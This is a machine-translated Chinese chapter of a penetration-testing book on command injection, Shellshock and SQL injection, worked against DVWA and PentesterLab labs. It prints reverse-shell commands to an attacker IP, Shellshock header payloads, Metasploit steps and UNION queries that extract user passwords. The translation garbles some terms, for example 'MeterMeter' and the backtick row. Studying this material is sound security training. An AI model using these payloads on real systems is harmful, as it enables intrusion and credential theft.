# 五、检测和利用基于注入的缺陷

根据 OWASP 2013 年前 10 名名单（[https://www.owasp.org/index.php/Top_10_2013-Top_10](https://www.owasp.org/index.php/Top_10_2013-Top_10) ），web 应用中最关键的缺陷是注入缺陷，它保持了在 2017 年列表
（[中的位置 https://www.owasp.org/index.php/Top_10-2017_Top_10](https://www.owasp.org/index.php/Top_10-2017_Top_10) 发布候选。交互式 web 应用从用户处获取输入，对其进行处理，并将输出返回给客户端。当应用容易受到注入缺陷的攻击时，它接受用户的输入，而不进行适当的验证，甚至不进行任何验证，并且仍然对其进行处理。这会导致应用不打算执行的操作。恶意输入欺骗应用，迫使底层组件执行应用未编程的任务。换句话说，注入漏洞允许攻击者随意控制应用的组件。

在本章中，我们将讨论当今 web 应用中的主要注入缺陷，包括检测和利用这些缺陷的工具，以及如何避免易受攻击或修复现有缺陷。这些缺陷包括：

*   命令注入缺陷
*   SQL 注入缺陷
*   基于 XML 的注入
*   NoSQL 注射剂

注入缺陷用于访问应用正在向其发送数据的底层组件，以执行某些任务。下表显示了 web 应用使用的最常见组件，当应用未对来自用户的输入进行消毒时，这些组件通常会成为注入攻击的目标：

| **组件** | **注射缺陷** |
| --- | --- |
| 操作系统 | 命令注入 |
| 数据库 | SQL/NoSQL 注入 |
| Web 浏览器/客户端 | 跨站点脚本 |
| LDAP 目录 | LDAP 注入 |
| XML | XPATH/XML 外部实体注入 |

# 命令注入

本质上是动态的 Web 应用可以使用脚本在 Web 服务器上的操作系统中调用某些功能，以处理从用户接收的输入。攻击者可能会绕过应用实现的输入验证过滤器，试图在命令行中处理此输入。**命令注入**通常调用同一 web 服务器上的命令，但根据应用的体系结构，该命令可能会在不同的服务器上执行。

让我们来看一个简单的代码片段，它很容易受到 DVWA 命令注入练习所带来的命令注入缺陷的影响。这是一个非常简单的脚本，用于接收 IP 地址并向该地址发送 ping（ICMP 数据包）：

```
<?php 
  $target = $_REQUEST[ 'ip' ]; 
  $cmd = shell_exec( 'ping  -c 3 ' . $target ); 
  $html .= '<pre>'.$cmd.'</pre>'; 
  echo $html; 
?> 
```

如您所见，在接受用户的`ip`参数之前没有输入验证，这使得此代码容易受到命令注入攻击。要登录到 DVWA，默认凭据为`admin`/`admin`。

恶意用户可能会使用以下请求导入其他命令，应用将接受这些命令而不会引发异常：

```
http://server/page.php?ip=127.0.0.1;uname -a
```

应用从客户端获取用户输入的值而不进行验证，并将其连接到`ping -c 3`命令，以构建在 web 服务器上运行的最终命令。服务器的响应显示在下面的屏幕截图中。当应用无法验证用户输入时，将显示底层操作系统的版本以及 ping 给定地址的结果：



注入的附加命令将使用 web 服务器的权限运行。如今，大多数 web 服务器都以受限权限运行，但即使权限有限，攻击者也可以利用并窃取重要信息。

命令注入可用于通过注入`wget`命令使服务器下载并执行恶意文件，或获得服务器的远程外壳，如以下示例所示。

首先，在 Kali Linux 中设置一个侦听器。**Netcat**有一个非常简单的方法：

```
nc -lvp 12345  
```

Kali Linux 现在设置为侦听端口`12345`上的连接。接下来，将以下命令注入易受攻击的服务器：

```
nc.traditional -e /bin/bash 10.7.7.4 12345 
```

在一些现代 Linux 系统上，最初的 Netcat 已被一个版本所取代，该版本不包括可能带来安全风险的一些选项，例如允许在连接时执行命令的`-e`。这些系统通常在名为`nc.traditional`的命令中包含传统版本的 Netcat。尝试使用 Netcat 访问远程系统时，请尝试两种选项。

请注意，`10.7.7.4`是示例中 Kali 机器的 IP 地址，`12345`是侦听连接的 TCP 端口。发送请求后，您应该在 Kali Linux 中接收连接，并能够在非交互 shell 中发出命令：



非交互式 shell 允许您执行命令并查看结果，但不能与命令交互，也不能查看错误输出，例如在使用文本编辑器时。

# 识别注入数据的参数

当您测试 web 应用的命令注入缺陷，并且确认该应用正在与底层操作系统的命令行交互时，下一步是操作和探测应用中的不同参数，并查看它们的响应。应测试以下参数是否存在命令注入缺陷，因为应用可能正在使用其中一个参数在 web 服务器上重新生成命令：

*   **获取**：使用此方法，输入参数以 URL 发送。在前面显示的示例中，来自客户端的输入使用`GET`方法传递到服务器，容易受到命令注入漏洞的攻击。应测试使用`GET`方法请求发送的任何用户控制参数。
*   **POST**：此方法将输入参数发送到 HTTP 主体中。类似于使用`GET`方法传递的输入；从最终用户获取的数据也可以使用 HTTP 请求主体中的`POST`方法进行传递。然后 web 应用可以使用它在服务器端构建命令查询。
*   **HTTP 头**：应用通常使用头字段来识别最终用户，并根据头中的值向用户显示自定义信息。应用还可以使用这些参数来构建进一步的查询。要检查命令注入的一些重要头字段如下所示：
    *   `Cookies`
    *   `X-Forwarded-For`
    *   `User-Agent`
    *   `Referrer`

# 基于错误的盲命令注入

当您通过输入参数携带命令并在 web 浏览器中显示该命令的输出时，很容易识别应用是否容易受到命令注入缺陷的攻击。输出的形式可能是错误，也可能是您试图运行的命令的实际结果。作为渗透测试人员，您将根据应用使用的 shell 修改和添加其他命令，并从应用中收集信息。当输出显示在 web 浏览器中时，称为基于**错误的**或**非盲命令注入**。

在命令注入的另一种形式中，即**盲命令注入**，您注入的命令的结果不会显示给用户，也不会返回错误消息。攻击者必须依靠其他方法来确定该命令是否确实在服务器上执行。当命令的输出显示给用户时，您可以使用任何 bash shell 或 Windows 命令，例如`ls`、`dir`、`ps`或`tasklist`，具体取决于底层操作系统。但是，在测试盲注入时，需要仔细选择命令。作为一名道德黑客，当应用不显示结果时，识别注入缺陷存在的最可靠和安全的方法是使用`ping`命令。

攻击者注入`ping`命令，将网络数据包发送到其控制下的机器，并使用数据包捕获查看该机器上的结果。这可能在以下几个方面很有用：

*   由于`ping`命令在 Linux 和 Windows 中都类似，只是有一些小改动，因此如果应用容易受到注入缺陷的攻击，则该命令肯定会运行。
*   通过分析`ping`输出中的响应，攻击者还可以使用 TTL 值识别底层操作系统。
*   `ping`输出中的响应还可能让攻击者了解防火墙及其规则，因为目标环境允许 ICMP 数据包通过其防火墙。这可能在攻击的后期阶段很有用，因为 web 服务器有一条通往攻击者的路径。
*   `ping`效用通常不受限制；即使应用在非特权帐户下运行，也可以保证执行命令的机会。
*   输入缓冲区的大小通常是有限的，并且只能接受有限数量的字符，例如用户名的输入字段。`ping`命令以及 IP 地址和一些附加参数可以很容易地注入这些字段。

# 命令分隔符的元字符

在前面显示的示例中，分号用作元字符，用于分隔实际输入和尝试注入的命令。除了分号，还有其他几个元字符可用于注入命令。

开发人员可以设置筛选器来阻止分号元字符。这将阻止注入的数据，因此您也需要尝试其他元字符，如下表所示：

| **符号** | **用法** |
| --- | --- |
| `;` | 分号是用于测试注入缺陷的最常见元字符。shell 按分号分隔的顺序运行所有命令。 |
| `&&` | 仅当左侧的命令成功执行时，双符号 AND 才会在元字符右侧运行该命令。例如，将密码字段与正确的凭据一起注入。可以插入一个命令，该命令将在用户通过系统认证后运行。 |
| `&#124;&#124;` | 双管道元字符与双符号和正好相反。仅当左侧的命令失败时，它才会在右侧运行该命令。以下是此命令的示例：
`**cd invalidDir &#124;&#124; ping -c 2 attacker.com**` |
| `( )` | 使用分组元字符，可以组合多个命令的输出并将其存储在文件中。以下是此命令的示例：
`**(ps; netstat) > running.txt**` |
| ``` | 单引号元字符用于强制 shell 在反勾号之间解释和运行命令。以下是此命令的示例：
`**Variable= "OS version `uname -a`" && echo $variable**` |
| `>>` | 此字符将左侧命令的输出附加到字符右侧名为的文件。以下是此命令的示例：
`**ls -la >> listing.txt**` |
| `&#124;` | 单个管道将使用左侧命令的输出作为右侧指定命令的输入。以下是此命令的示例：
`**netstat -an &#124; grep :22**` |

作为攻击者，您通常必须使用前面的元字符组合来绕过开发人员设置的过滤器，以便注入您的命令。

# 利用炮击

**shellshock**漏洞于 2014 年 9 月被发现，并分配了初始 CVE 标识符 2014-6271。Shellshock 是一个**任意代码执行**（**ACE**）漏洞，被认为是迄今发现的最严重缺陷之一。

该缺陷是在**Bourne Shell**（**bash**）处理环境变量的方式中发现的，它影响到使用 bash 作为操作系统接口的广泛应用和操作系统。大多数基于 Unix 的系统（包括 Mac OS X）中的 DHCP 客户端、命令行终端和 web 应用中的 CGI 脚本等代码都受到影响。在环境变量中设置空函数时会触发该漏洞。空函数如下所示：

```
() { :; };  
```

当 bashshell 接收到前面的一组字符和变量时，而不是拒绝字符串，bashshell 会接受它和后面的变量，并将其作为命令在服务器上执行。

正如您在前面利用命令注入漏洞时所看到的，bashshell 通常用于 web 应用，并且您经常会看到后端、中间件和监控 web 应用将变量传递给 bashshell 以执行某些任务。下面显示了 shellshock 缺陷的示例，使用 PentesterLab（[提供的易受攻击的 live CDhttps://www.pentesterlab.com/exercises/cve-2014-6271](https://www.pentesterlab.com/exercises/cve-2014-6271) ）。

# 得到一个反弹壳

如果您使用 live CD 映像启动虚拟机，您将拥有一个最低限度的系统，其中包括一个 web 服务器，该服务器加载一个显示系统信息的非常简单的页面：


如果您查看代理中的请求，您会注意到一个到`/cgi-bin/status`的请求，其响应包括系统的正常运行时间和`uname -a`命令的结果：


要获取此类信息，状态脚本需要与操作系统通信。有可能是它使用了 bash，因为 bash 是许多基于 Unix 的系统的默认 shell，`User-Agent`头在处理 CGI 脚本时成为环境变量。要测试是否确实存在命令注入，需要测试注入的不同版本。假设您希望目标服务器 ping 回您，以验证它是否正在执行命令。下面是一些使用通用目标地址的示例。请注意空格和分隔符的使用：

```
() { :;}; ping -c 1 192.168.1.1 
() { :;}; /bin/ping -c 1 192.168.1.1 
() { :;}; bash -c "ping -c 1 192.168.1.1" 
() { :;}; /bin/bash -c "ping -c 1 attacker.com" 
() { :;}; /bin/sh -c "ping -c 1 192.168.1.1" 
```

作为测试的一部分，您将请求发送到 Burp Suite 的中继器，并仅提交`User-Agent`头中的`() { :;};`空函数，并获得与无注入相同的有效响应：


如果您尝试注入命令，如`uname`、`id`或单个`ping`，则会出现错误。这意味着实际上正在处理标头，您只需找到发送命令的正确方式：



经过反复试验，您找到了正确的命令。`ping -c 1 10.7.7.4`命令将在服务器上执行，ping 将通过网络嗅探器在攻击者的机器中捕获，例如 Wireshark：



现在您已经找到了正确的注入命令，可以尝试获得对服务器的直接 shell 访问。为此，首先使用 Netcat 设置侦听器，如下所示：

```
nc -lvp 12345  
```

然后注入命令。这一次，您正在注入一个更高级的命令，如果成功，将生成一个完全交互的 shell：

```
() { :;}; /bin/bash -c "ping -c 1 10.7.7.4; bash -i >& /dev/tcp/10.7.7.4/12345 0>&1"
```


bashshell 将变量解释为命令并执行它，而不是接受变量作为字符序列。这看起来与前面讨论的命令注入缺陷非常相似。然而，这里的主要区别在于 bashshell 本身容易受到代码注入的影响，而不是网站。由于许多应用（如 DHCP、SSH、SIP 和 SMTP）都使用 bash shell，因此攻击面在很大程度上增加了。利用 HTTP 请求上的漏洞仍然是最常见的方法，因为 bash shell 通常与 CGI 脚本一起使用。

为了识别 web 服务器中的 CGI 脚本，除了使用代理分析请求和响应外，还可以使用**Nikto**和**DIRB**。

# 使用 Metasploit 进行开发

从终端（`msfconsole`启动 Metasploit 控制台。您需要选择`exploit/multi/http`下的`apache_mod_cgi_bash_env_exec`漏洞：

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec  
```

然后您需要使用`set`命令定义远程主机和目标 URI 值。您还需要选择使 web 服务器连接到攻击者机器的`reverse_tcp`有效负载。这可以通过导航到 linux | x86 | MeterMeter 找到。

确保本地主机（`SRVHOST`和本地端口（`SRVPORT`的值正确。您可以使用`set`命令设置这些值和其他值：

```
set SRVHOST 0.0.0.0
set SRVPORT 8080  
```

使用`0.0.0.0`主机，服务器将监听攻击者启用的所有网络接口。此外，请验证攻击者机器的选定端口上是否没有正在运行的服务：


准备就绪后，输入`exploit`，如果服务器易受 shellshock 攻击，则会出现`meterpreter`提示。*贝壳是黑客最有价值的财产*。在开发后阶段，`meterpreter`会话是非常有用的工具。在这一阶段，黑客真正理解他们所破坏的机器的价值。MeterMeter 有大量内置命令。

MeterMeter 是 Metasploit 中包含的高级远程 shell。在 Windows 系统中执行时，它包括用于升级权限、转储密码和密码哈希、模拟用户、嗅探网络流量、记录击键以及在目标计算机中执行许多其他攻击的模块。

以下屏幕截图显示了`sysinfo`命令的输出和 MeterMeter 内的远程系统外壳：



# SQL 注入

与后端数据库交互以检索和写入数据是 web 应用执行的最关键任务之一。将数据存储在一系列表中的关系数据库是实现这一点最常用的方法，对于查询信息，**结构化查询语言**（**SQL**）是事实上的标准。

为了允许用户选择要查看的信息或根据他们的配置文件过滤他们可以看到的信息，从 cookie、输入表单和 URL 变量中获取的输入用于构建 SQL 语句，这些 SQL 语句被传递回数据库进行处理。由于构建 SQL 语句涉及用户输入，因此应用的开发人员需要在将其传递到后端数据库之前仔细验证它。如果未正确完成此验证，恶意用户可能会发送 SQL 查询和命令，这些查询和命令将由数据库引擎执行，而不是按预期值进行处理。

滥用用户输入信任以迫使服务器执行 SQL 查询而不是使用值作为过滤参数的攻击类型称为**SQL 注入**。

# SQL 入门

为了理解 SQL 注入缺陷，首先需要对 SQL 有一些了解。首先，让我们看看一些基本的数据库概念：

*   **列或字段：**列或字段是指所有实体的单一特征的一段特定数据，如用户名、地址或密码。
*   **行或记录：**行或记录是与单个实体相关的一组信息或一组字段值，例如，与单个用户或单个客户端相关的信息。
*   **表格：**表格是包含相同类型元素信息的记录列表，例如，用户、产品或博客帖子的表格。
*   **数据库：**数据库是与同一个系统或一组系统关联的、通常相互关联的一整套表。例如，在线商店数据库可能包含客户、产品、销售、价格、供应商和员工用户的表格。

为了获取如此复杂结构的信息，几乎所有现代编程语言和**数据库管理系统**（**DBMS**都支持使用 SQL。SQL 允许开发人员对数据库执行以下操作：

| **声明** | **说明** |
| --- | --- |
| `CREATE` | 这用于创建数据库和表 |
| `SELECT` | 这允许从数据库中检索信息 |
| `UPDATE` | 这允许修改数据库中的现有数据 |
| `INSERT` | 这允许在数据库中插入新数据 |
| `DELETE` | 这用于从数据库中删除记录 |
| `DROP` | 这用于永久删除表和数据库 |

还支持其他更复杂的功能，如存储过程、完整性检查、备份和文件系统访问，它们的实现主要依赖于所使用的 DBMS。

大多数合法的 SQL 操作任务都是使用前面的语句执行的。然而，`DELETE`和`DROP`语句如果使用不受控制，可能会导致信息丢失。在渗透测试中，除非客户明确要求，否则不鼓励尝试使用`DROP`或`DELETE`进行 SQL 注入攻击，或者我应该说是禁止的。

SQL 语句中的`;`（分号）元字符的使用方式与命令注入中用于在同一行上组合多个查询的方式类似。

# SELECT 语句

日常数据库使用的基本操作是检索信息。这是通过`SELECT`完成的。基本语法如下所示：

```
SELECT [elements] FROM [table] WHERE [condition]  
```

这里，`elements`可以是通配符（例如，`*`选择所有内容），也可以是要检索的列列表。`table`是要从中检索信息的表。`WHERE`子句是可选的，如果使用，查询将只返回满足条件的行。例如，您可以选择 100 美元（USD）以下所有产品的`name`、`description`和`price`列：

```
SELECT name,description,price FROM products WHERE price<100  
```

`WHERE`子句还可以使用布尔运算符生成更复杂的条件：

```
SELECT columnA FROM tableX WHERE columnE='employee' AND columnF=100;  
```

如果满足`WHERE`子句后面的条件，前面的 SQL 语句将从名为`tableX`的表返回`columnA`中的值；即，`columnE`具有`employee`字符串值，`columnF`具有`100`值。

# 易受攻击的代码

与前面讨论的命令注入缺陷类似，使用`GET`方法传递的变量也经常用于构建 SQL 语句。例如，`/books.php?userinput=1`URL 将显示关于第一本书的信息。

在下面的 PHP 代码中，用户通过`GET`方法提供的输入直接添加到 SQL 语句中。`MySQL_query()`函数将 SQL 查询发送到数据库，`MySQL_fetch_assoc()`函数将从数据库中获取数组格式的数据：

```
<?php 
    $stockID = $_GET["userinput"]; 
    $SQL= "SELECT * FROM books WHERE ID=" . $stockID; 
    $result= MySQL_query($SQL); 
    $row = MySQL_fetch_assoc($result); 
?> 
```

如果没有正确的输入验证，攻击者可以控制 SQL 语句。如果将 URL 更改为`/books.php?userinput=10-1`，将向后端数据库发送以下查询：

```
SELECT * FROM books WHERE ID=10-1  
```

如果显示了关于第九本书的信息，则可以断定应用容易受到 SQL 注入攻击，因为未过滤的输入直接发送到执行减法的数据库。

SQL 注入缺陷存在于 web 应用中，而不是数据库服务器上。

# SQL 注入测试方法

在上一节中，您看到了对易受攻击代码段的攻击结果。很明显，如果用户输入未经事先验证就被使用，并且直接连接到 SQL 查询中，用户可以插入不同的值或代码，这些值或代码将由数据库中的 SQL 解释器处理和执行。但是，如果您没有访问源代码的权限怎么办？这是渗透测试中最可能出现的情况；那么，您如何识别这样的缺陷呢？

答案是通过尝试简单的注入字符串并分析服务器的响应。让我们看一个使用**该死的易受攻击 Web 应用**（**DVWA**的简单示例。在 SQL 注入部分，如果您在文本框中输入任何数字，例如`2`，您将获得具有此 ID 的用户的信息：


现在尝试提交一个`'`（撇号）字符而不是数字，您将看到响应是一条非常描述性的错误消息：


这个唯一的响应告诉我们，参数容易被注入，因为它表示提交 ID 时出现语法错误，通过注入撇号形成的查询如下所示：

```
SELECT first_name, last_name FROM users WHERE user_id = '''  
```

开头的撇号由注入的字符闭合。代码中已经存在的语句保持打开状态，这会在 DBMS 尝试解释该语句时产生错误。

检测注入的另一种方法是让解释器执行布尔运算。尝试提交类似于`2' and '1'='1`的内容。请注意，您没有发送第一个和最后一个撇号，这些撇号将由 SQL 语句中已有的撇号完成，因为它将从前面的错误消息中扣除。有时，您需要尝试使用撇号、括号和其他分组字符的多种组合，以了解句子的实际用法：



结果是 ID 为 2 的同一用户。这是预期的结果，因为您正在附加一个始终为真的条件；也就是说，`and '1'='1'`。

下一步，尝试一个始终为假的选项：`2' and '1'='2`



从浏览器中的地址栏可以看到，ID 提交是通过`GET`请求完成的。对 false 条件的响应是空文本，而不是用户的详细信息。因此，即使 ID＝2 的用户存在，句子的第二个条件也是 false，结果是空的。这表示您可以将 SQL 代码注入查询，并可能从数据库中提取信息。

可以帮助您识别 SQL 注入的其他有用测试字符串如下所示：

*   **数字输入的算术运算**：包括`2+1`、`-1`和`0+1`。
*   **字母值**：当需要数字时，使用这些（`a`、`b`、`c`…）。
*   **分号（；）**：在大多数 SQL 实现中，分号表示句子的结尾。您可以插入一个分号，后跟另一个 SQL 语句，如`SLEEP`或`WAITFOR`，然后比较响应时间。如果与您提供的暂停一致，则存在注入漏洞。
*   **注释**：注释标记（`#`、`//`、`/*`、`--`使口译员忽略注释后的所有内容。通过在有效值之后注入这些值，您应该得到与单独提交值时不同的响应。
*   **双引号（“）**：可以用来代替撇号或单引号来分隔字符串。

*   **通配符、字符%（百分比）和(下划线）**：这些也可以在`WHERE`条件下使用，因此如果代码易受攻击，可以注入它们；`%`表示所有字符串，`_`表示任何字符，但只有一个字符。例如，如果使用了`LIKE`运算符而不是`=`，如以下 PHP 字符串串联中所示，如果我们提交百分比字符（`%`，您将得到所有用户：

```
      "SELECT first_name, last_name FROM users WHERE first_name LIKE '" .  
      $name . "'"
```

或者，如果您提交诸如`"Ali__"`（带有两个下划线）之类的内容，您可能会得到诸如`"Alice"`、`"Aline"`、`"Alica"`、`"Alise"`和`"Alima"`之类的结果。

*   **联合运算符**：在 SQL 中用于将两个查询的结果放在一起。作为一个条件，两个查询的结果需要具有相同的列数。因此，如果您有一个返回三个的易受攻击的查询，如刚才显示的查询（选择两列）并插入类似于`UNION SELECT 1,2`的内容，那么您将得到一个有效的结果，或者如果插入`UNION SELECT 1,2,3`，您将得到一个错误。如果结果相同，无论列数多少，或者差异不一致，该输入可能不易受攻击。

# 用 SQL 注入提取数据

为了利用 SQL 注入漏洞并从数据库中提取数据，您需要做的第一件事是了解如何构建查询，以便知道如何以及在何处注入有效负载。

发现存在注入漏洞可以帮助您了解`WHERE`条件是如何产生的。您需要知道的另一件事是选择了多少列以及哪些列实际返回给客户机。

要获取列数，可以使用`ORDER BY`。首先在有效值后注入`ORDER BY 1`以按第一行排序结果，然后按第二行排序，依此类推，直到出现错误，因为您试图使用不存在的行号排序结果：


如前一个屏幕截图所示，当按列`3`排序时，查询失败，这表明它只返回两列。另外，请注意地址栏中的注入是`2' order by 3 -- '`，您需要添加注释以使解释器忽略查询的其余部分，因为在 SQL 中`ORDER`必须始终位于句子的末尾。您还需要在注释前后添加空格（浏览器将其替换为地址栏中的`+`），并关闭末尾的单引号以防止语法错误。

现在您知道查询返回两列，要查看它们在响应中的显示方式，请使用`UNION`。通过提交`2' union select 1,2 -- '`，您会看到第一列是名字，第二列是姓氏：



现在可以开始从数据库中提取信息了。

# 获取基本环境信息

为了从数据库中提取信息，您需要知道要查找什么：数据库是什么？我们的用户可以访问其中哪一个？有哪些表，它们有哪些列？这是您需要向服务器询问的初始信息，以便能够查询您希望获得的数据：


使用 DVWA 示例，假设您只有两列来获取信息，首先询问数据库名称和应用用于连接到 DBMS 的用户。

这是使用 MySQL 中预定义的`database()`和`user()`函数完成的：



您还可以通过注入以下内容来请求服务器上的数据库列表：

```
2' union SELECT schema_name,2 FROM information_schema.schemata -- '  
```


`information_schema`是包含 MySQL 所有配置和数据库定义信息的数据库，所以`dvwa`应该是目标应用对应的数据库。现在，让我们查询该数据库中包含的表：

```
2' union SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' -- '  
```

如屏幕截图所示，我们正在查询`information_schema.tables`表中定义的所有表的表名，`table_schema`（或数据库名）为`'dvwa'`。从中，您可以获得包含用户信息的表的名称，还可以询问其列和每列的类型：

```
2' union SELECT table_name,2 FROM information_schema.tables WHERE table_schema = 'dvwa' and table_name = 'users' --'
```

您应该在每个请求中选择一条或两条信息，因为您只有两个字段来显示信息。SQL 提供了连接两个或更多字符串的`CONCAT`函数。您可以使用它将多个字段放在一个值中。您将使用`CONCAT`在一次查询中提取用户 ID、姓名、用户名和密码：

```
2' union select concat(user_id,'-',first_name,' ',last_name),concat(user,':',password) from dvwa.users -- '
```

****

# SQL 盲注入

